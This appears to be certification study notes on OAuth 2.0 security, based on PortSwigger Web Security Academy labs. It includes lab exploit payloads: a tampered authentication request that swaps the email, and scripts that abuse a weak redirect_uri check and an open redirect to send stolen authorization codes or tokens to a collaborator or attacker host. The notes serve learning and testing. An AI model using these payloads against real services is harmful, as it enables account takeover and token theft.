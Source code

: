 ##### PortSwigger BurpSuite Certification Summary
# OAuth 2.0
OAuth is a service that grants a client application access to a subset of a resource owner's data. The data is stored on the OAuth service provider and access is granted by the user, after an application requested it.
These are the common steps:
 * The client application requests access to a subset of the user's data, specifying which grant type they want to use and what kind of access they want. 
 * The user is prompted to log in to the OAuth service and explicitly give their consent for the requested access.
 *  The client application receives a unique access token that proves they have permission from the user to access the requested data. Exactly how this happens varies significantly depending on the grant type. 
 * The client application uses this access token to make API calls fetching the relevant data from the resource server. 

The grant type specifies the exact steps in the process. They are also referred to as OAuth flows. The most common are "authorization code" and "implicit".

The scope defines on what subset of the data the acces is requested for and can vary strongly between differend services:
```
scope=contacts
scope=contacts.read
scope=contact-list-r
scope=https://oauth-authorization-server.com/auth/scopes/user/contacts.readonly
```
### Authorization Code 
This grant type uses secure channels to communicate the secrets and user data and is considered very secure.

1. Authorization request:
  ```
  GET /authorization?
  client_id=12345&
  redirect_uri=https://client-app.com/callback
  &response_type=code
  &scope=openid%20profile
  &state=ae13d489bd00e3c24 HTTP/1.1
  Host: oauth-authorization-server.com   
  ```
 Noteworthy is the `redirect_uri` which is often used in an attack. It is also referred to as callback URI or callback endpoint. The `state` can be seen as a CSRF token.
2. User login and consent. Once the user logs in, the session usually remains.
3. Authorization code grant
   In this step, the callback is made. The request will contain the authorization code.
4. Access token request
   The client requests a token from the endpoint over a secure channel.
5. Access token grant.
6. 6. API call
   With the `Authorization: Bearer xxxxx` the application can now make API calls.
7. Resource grant.

### Implicit
With this grant type, the token is given immediately after the user gives consent. This type is far less secure, since all communication happens over browser redirects. 

## OAuth authentication
OAuth is often used to authenticate users so they do not have to create a separate account. The flow remains the same, while the data is used to authenticate the user. Here the access token is mainly used instead of a password.

### Example:
The application uses an implicit flow and sends some user information from the OAuth process to it's own backend. With this, a logged in user will be redirected directly to the main account page.
```
POST /authenticate HTTP/1.1
Host: ac021fc91f7f7a56c0883683008e0094.web-security-academy.net
Cookie: session=LyqhX1Ct6DGuQjSqkym07VzcnkAVjx5Q
{"email":"carlos@carlos-montoya.net","username":"wiener","token":"nsIvzvg0iO63USs63h-Mz-UqvptxI-rPIE0s6_qgu-y"}
```
Here the email has been exchanged and the rest is from a valid session of `wiener`. The backend still accepts this and redirects the user to the account associated with the email address and not the token.

It is important to check which API endpoint the client uses. There is plenty of documentation available and it is advisable to make standard requests to get more information about the data structure:
```
/.well-known/oauth-authorization-server
/.well-known/openid-configuration
```

### Example:
The OAuth service sends an authentication token to the redirect uri in case the user is already logged into the social media account:
```
GET /auth?
client_id=bl0fq2yoggbbcilg0j82y
&redirect_uri=https://HOST/oauth-callback
&response_type=code
&scope=openid%20profile%20email HTTP/1.1
Host: oauth-aca51fcf1ee77020c03404a702aa0050.web-security-academy.net
Cookie: _session=8OiRT37irZ6XH4brmuEG9; _session.legacy=8OiRT37irZ6XH4brmuEG9

---------------------------------------------------------------------------------
HTTP/1.1 302 Found
Redirecting to <a href="https://HOST/oauth-callback?
code=rnGpjv4BFbSvIv7KrHPrTlorjgYMruPNbi_NXD1NT9f">
```

If the service fails to validate the supplied `redirect_uri` , the attacker can craft a malicious URL which discloses the authentication token:
```
<script>
location = "https://oauth-HOST/auth?
client_id=bl0fq2yoggbbcilg0j82y
&redirect_uri=https://COLLABORATOR
&response_type=code
&scope=openid%20profile%20email"
</script>
```

`redirect_uri` [filter bypass strategies](https://portswigger.net/web-security/oauth#leaking-authorization-codes-and-access-tokens).

Sometimes changing one parameter can affect the validation of others. For example, changing the `response_mode` from `query` to `fragment` can sometimes completely alter the parsing of the `redirect_uri`, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the `web_message` response mode is supported, this often allows a wider range of subdomains in the `redirect_uri`.

Even if no external site can be smuggled in as the redirect URI, path traversal might offer a solution. Other places on the website that are passing the filter and have a vulnerability can then be used to get the data of interest. 

### Example
The redirect URI allows only to go to the /oauth-callback endpoint. However, an open redirect vulnerability on the same domain can be obused and reached via directory traversal:
```
GET /auth
?client_id=...
&redirect_uri=https://.../oauth-callback/../post/next?path=ATTACKER-HOST
...
```
The victim will finish the oauth process and then be redirected to the attacker host, with the authorization token in the hash of the URL. It can be accessed like this:
```
document.location.hash.substr(1)
```
The `substr` removes the # symbol, which would strip the values from the URL in subsequent requests, such as to the collaborator:
```
<script>
if (!document.location.hash) {
    window.location = '.../auth?client_id=...&redirect_uri=../oauth-callback/../post/next?path=../exploit/&...'
} else {
    window.location = 'collaborator?'+document.location.hash.substr(1)
}
</script>
```

Note: sometimes the API key is hidden, but queried from the oauth service. Such requests can be impersonated with the authorization token as well.